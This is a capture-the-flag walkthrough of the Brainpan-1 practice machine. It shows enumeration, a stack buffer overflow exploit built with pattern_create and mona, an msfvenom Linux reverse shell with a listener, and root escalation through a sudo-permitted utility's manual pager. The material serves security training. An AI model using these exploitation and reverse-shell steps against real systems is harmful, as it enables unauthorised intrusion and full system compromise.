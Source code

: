 # Brainpan-1
Walkthrough - Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.


Brainpan is perfect for OSCP practice and has been highly recommended to complete before the exam. Exploit a buffer overflow vulnerability by analyzing a Windows executable on a Linux machine. If you get stuck on this machine, don't give up (or look at writeups), just try harder. 



# 1. python3 threader.py 
here we find two port 9999, 10000 are opened and at 10000 SimpleHTTPServer 0.6 (Python 2.7.3) .
# 2. A web portal was live.

# 3. I used gobuster for directory traversal 
``` gobuster  dir  -u http://http://10.10.188.178:10000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  ```
# Found /bin directory

![alt text](./brainpan.png)

Download brainpan.exe file 
# Open File In Immunity Debugger 
Start running

Now bruteforcing by 

``` nc ip 9999 ```
 
 ## I found 
 A buffer overflow while giving the 900 'A' .
 Generate cyclic pattern using metasploit-framework 

 ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 900 ```

Found an offset of 524
![alt text](./binary.png)

Now edit the value of offset to 524 and assign the value to return address BBBB then run again  and see return is overwritten.

# Generate Badchar 
-> add badchar to payload 
-> exclude '\x00' from the 

``` !mona bytearray -b '\x00'```

-> Remove '\x00' from badchars

-> run the exploit then 

->run 
``` !mona compare -f c:\mona\brainpan\bytearray.bin```

Then I find the no badchars 

-> then run

```!mona jmp -r esp -cpb '\x00'```

Find ``` jmp esp``` 

I found ``0x311712f3``

-> Generate payload using msfvnom

``msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.17.47.191 LPORT=4444 -f c -b "\x00"``

-> Replace payload with generated payload 

->Prepend and append no ops '\x90' 

-> Run exploit

->Put a listener ``nc -lvnp 4444```
## Now you are able to gain reverse shell
-> Now change the ip to machine address then in msfvenom command and replace generated payload

-> Now run again 

## -> OOhOO now you got the shell.
But the shell command is not working properly I typed ls but not worked then i typed dir ,It worked but linux commands are not working then i see the ``checksrv.sh`` file i found it is using absolute path for command . To fix you can follow this link but not sure that it will work for you
 https://askubuntu.com/questions/1091553/how-do-i-fix-error-opening-terminal-unknown-on-ubuntu-server

-> I run /usr/bin/sudo -l
```
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

Here `` anansi_util`` can run without being root 
Run that found -
``` Z:\home\puck>/usr/bin/sudo /home/anansi/bin/anansi_util

Z:\home\puck>Usage: /home/anansi/bin/nansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

Run ```/usr/bin/sudo /home/anansi/bin/anansi_util manual id ```

then `` !/bin/bash``
Now you are a root user

![alt text](./root.png)
